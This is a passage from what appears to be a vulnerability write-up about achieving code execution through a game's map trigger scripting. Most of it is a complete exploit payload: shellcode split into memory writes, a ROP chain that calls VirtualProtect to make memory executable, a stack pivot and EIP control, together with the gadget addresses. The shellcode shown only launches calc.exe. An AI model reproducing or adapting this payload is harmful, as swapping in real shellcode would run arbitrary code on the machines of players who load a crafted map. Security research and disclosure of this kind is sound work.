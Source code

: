 Running this will pivot the stack, run `VirtualProtect(0x6dd000, 0x100, 0x40, 0x6dd000)` and then jump to the address right after the ROP chain. The call to `VirtualProtect` will make the whole `bss` executable.

The only thing we are missing now is some shellcode. For my PoC, I just picked some [32-bit shellcode to run calc.exe](https://packetstormsecurity.com/files/102847/All-Windows-Null-Free-CreateProcessA-Calc-Shellcode.html), split it into 4-byte chunks and used the script to write it right after the ROP chain resulting in a final payload looking like this:

```
Trigger("All players"){
Conditions:
    Always();

Actions:
    // Write shellcode
    MemoryAddr(0x006dd024, Set To, 0x8b64db31);
    MemoryAddr(0x006dd028, Set To, 0x7f8b307b);
    MemoryAddr(0x006dd02c, Set To, 0x1c7f8b0c);
    MemoryAddr(0x006dd030, Set To, 0x8b08478b);
    MemoryAddr(0x006dd034, Set To, 0x3f8b2077);
    MemoryAddr(0x006dd038, Set To, 0x330c7e80);
    MemoryAddr(0x006dd03c, Set To, 0xc789f275);
    MemoryAddr(0x006dd040, Set To, 0x8b3c7803);
    MemoryAddr(0x006dd044, Set To, 0xc2017857);
    MemoryAddr(0x006dd048, Set To, 0x01207a8b);
    MemoryAddr(0x006dd04c, Set To, 0x8bdd89c7);
    MemoryAddr(0x006dd050, Set To, 0xc601af34);
    MemoryAddr(0x006dd054, Set To, 0x433e8145);
    MemoryAddr(0x006dd058, Set To, 0x75616572);
    MemoryAddr(0x006dd05c, Set To, 0x087e81f2);
    MemoryAddr(0x006dd060, Set To, 0x7365636f);
    MemoryAddr(0x006dd064, Set To, 0x7a8be975);
    MemoryAddr(0x006dd068, Set To, 0x66c70124);
    MemoryAddr(0x006dd06c, Set To, 0x8b6f2c8b);
    MemoryAddr(0x006dd070, Set To, 0xc7011c7a);
    MemoryAddr(0x006dd074, Set To, 0xfcaf7c8b);
    MemoryAddr(0x006dd078, Set To, 0xd989c701);
    MemoryAddr(0x006dd07c, Set To, 0xe253ffb1);
    MemoryAddr(0x006dd080, Set To, 0x616368fd);
    MemoryAddr(0x006dd084, Set To, 0xe289636c);
    MemoryAddr(0x006dd088, Set To, 0x53535252);
    MemoryAddr(0x006dd08c, Set To, 0x53535353);
    MemoryAddr(0x006dd090, Set To, 0xd7ff5352);


    // ROP chain start
    // 0x006d46f8 = 0x006dd000 - 0x8904 - 4
    MemoryAddr(0x006d46f8, Set To, 0x00405cd3); // ret
    // ROP chain main
    MemoryAddr(0x006dd000, Set To, 0x00405cd2); // pop eax; ret;
    MemoryAddr(0x006dd004, Set To, 0x004fe0f0); // &VirtualProtect
    MemoryAddr(0x006dd008, Set To, 0x0040660e); // jmp [eax] -> VirtualProtect
    MemoryAddr(0x006dd00c, Set To, 0x0040650b); // ret -------------
    MemoryAddr(0x006dd010, Set To, 0x006dd000); // lpAddress       |
    MemoryAddr(0x006dd014, Set To, 0x00000100); // dwSize          |
    MemoryAddr(0x006dd018, Set To, 0x00000040); // flNewProtect    |
    MemoryAddr(0x006dd01c, Set To, 0x006dd000); // lpflOldProtect  |
    MemoryAddr(0x006dd020, Set To, 0x006dd024); // &shellcode <----|

    //Set up the stack pivot
    MemoryAddr(0x0050C63C, Set To, 0x006d46f8); // The X value
    MemoryAddr(0x0051BC08, Set To, 0x00469c72); // The second gadget
    MemoryAddr(0x00512850, Set To, 0x0040ccb3); // Control EIP

```